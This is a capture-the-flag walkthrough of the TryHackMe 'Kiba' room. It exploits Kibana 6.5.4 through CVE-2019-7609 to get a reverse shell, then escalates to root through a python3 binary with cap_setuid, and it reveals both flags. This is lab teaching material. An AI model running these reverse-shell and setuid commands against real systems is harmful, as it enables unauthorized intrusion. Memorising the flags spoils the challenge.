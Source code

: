 # kiba

## Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals four open ports:
* 22 ssh
* 80 http
* 5044 lxi-evntsvc
* 5601 esmagent

~~~
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:51 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|_    {"statusCode":404,"error":"Not Found"}
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## [Task 1] Flags

Are you able to complete the challenge?

### 1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

The answer is `Prototype pollution` which is specific to programming languages with prototype-based inheritance.

### 2. What is the version of visualization dashboard installed in the server?

I headed to port 5601 which is hosting Kibana. I went to Management section and the version is there:

<p align="center"><img src="./files/version.png"></p>

Version: `6.5.4`

### 3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I searched for this version's vulnerabilities and found [this](https://github.com/LandGrey/CVE-2019-7609) github repository:

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

CVE: `CVE-2019-7609`

### 4. Compromise the machine and locate user.txt

Let's exploit this vulnerability. First I downloaded the python scrip included in the repository. Then I started a listener and then ran the exploit:

~~~
$ ./exploit.py -u http://$IP:5601 -host <YOUR IP> -port 4444 --shell
~~~

Now we have a shell as "kiba":

~~~
┌──(user㉿B0B)-[~/…/walkthroughs/thm/kiba/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.135.116] 43826
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$
~~~

Now we can look for the user flag. It is located in `/home/kiba`:

~~~
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home/kiba
kiba@ubuntu:/home/kiba$ cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
~~~

user.txt: `THM{1s_easy_pwn3d_k1bana_w1th_rce}`

### 5. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

It is a description on capabilities. No answers needed.

### 6. How would you recursively list all of these capabilities?

Command: `getcap -r /`

### 7. Escalate privileges and obtain root.txt

Let's check the capabilities. (No need to say but I added `2>/dev/null` to filter out the useless results):

~~~
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep  <--------------
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
~~~

We can see a custom python3 installation in `/home/kiba/.hackmeplease/`. I looked it up in [GTFOBins](https://gtfobins.github.io/) and found a command which can gain us the root privileges:

~~~
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
~~~

The first thing I did was spawning a TTY shell using a python one-liner cuz why not. Then I went to `/root` and read the root flag:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba# cd /root
root@ubuntu:/root# cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
~~~

root.txt: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

And have a good one! : )